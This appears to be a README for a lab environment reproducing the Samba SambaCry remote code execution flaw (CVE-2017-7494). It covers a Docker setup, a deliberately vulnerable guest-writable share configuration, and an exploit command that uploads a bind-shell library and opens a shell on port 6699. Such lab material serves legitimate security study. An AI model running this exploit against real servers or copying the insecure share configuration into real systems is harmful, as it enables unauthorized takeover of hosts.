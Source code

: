 # Samba Authenticated RCE (CVE-2017-7494, Aka SambaCry)

[中文版本(Chinese version)](README.zh-cn.md)

Samba is the standard Windows interoperability suite of programs for Linux and Unix, it provides secure, stable and fast file and print services for all clients using the SMB/CIFS protocol.

Samba 3.x after 3.5.0 and 4.x before 4.4.14, 4.5.x before 4.5.10, and 4.6.x before 4.6.4 that is vulnerable to a remote code execution vulnerability named **SambaCry**. CVE-2017–7494 allows remote authenticated users to upload a shared library to a writable shared folder, and perform code execution attacks to take control of servers that host vulnerable Samba services.

## Environment Setup

Execute following commands to start a Samba server 4.6.3:

```
docker-compose up -d
```

## Principle

Reference to [SambaCry RCE Exploit](https://medium.com/@lucideus/sambacry-rce-exploit-lucideus-research-3a3e5bd9e17c):

> Microsoft Remote Procedure Call (RPC) is a powerful technology for creating distributed client/server programs. RPC is an interprocess communication technique that allows client and server software to communicate.
>
> MSRPC protocol allows to connect to a named pipe from remote destination. When trying to open a pipe using MSRPC on Samba, the server verifies the validity of the pipe name using the internal function `is_known_pipename()`.
>
> An external RPC server can be set using the 'rpc_server' variable inside smb.conf and then it will handle the pipe request.
>
> The function `is_known_pipename()` doesn’t check that the pipe is valid, this allows to use '/' to insert a full path of an arbitrary library.

The exploitation requirements:

- An anonymous writeable server or an authenticated Samba account
- A known path of the writeable sharing directory

See also:

 - https://medium.com/@lucideus/sambacry-rce-exploit-lucideus-research-3a3e5bd9e17c
 - https://github.com/opsxcq/exploit-CVE-2017-7494
 - http://bobao.360.cn/learning/detail/3900.html

## Exploit

Samba config ( you can find [here](smb.conf) ) of our target server:

```
[global]
    map to guest = Bad User
    server string = Samba Server Version %v
    guest account = nobody

[myshare]
    path = /home/share
    read only = no
    guest ok = yes
    guest only = yes
```

Use `smbclient` to test connecting:

```
smbclient //your-ip/myshare -N
```

![](02.png)

If you got connection error, please check your network, especially port 445.

Using <https://github.com/opsxcq/exploit-CVE-2017-7494> to exploit the server:

```
./exploit.py -t your-ip -e libbindshell-samba.so -s myshare -r /home/share/libbindshell-samba.so -u guest -p guest -P 6699
```

Successful execute commands:

![](01.png)

Please note that, metasploit's `exploit/linux/samba/is_known_pipename` is tested failed since XX(I don't know) version, and I am really sure that it works on Jun 2017.
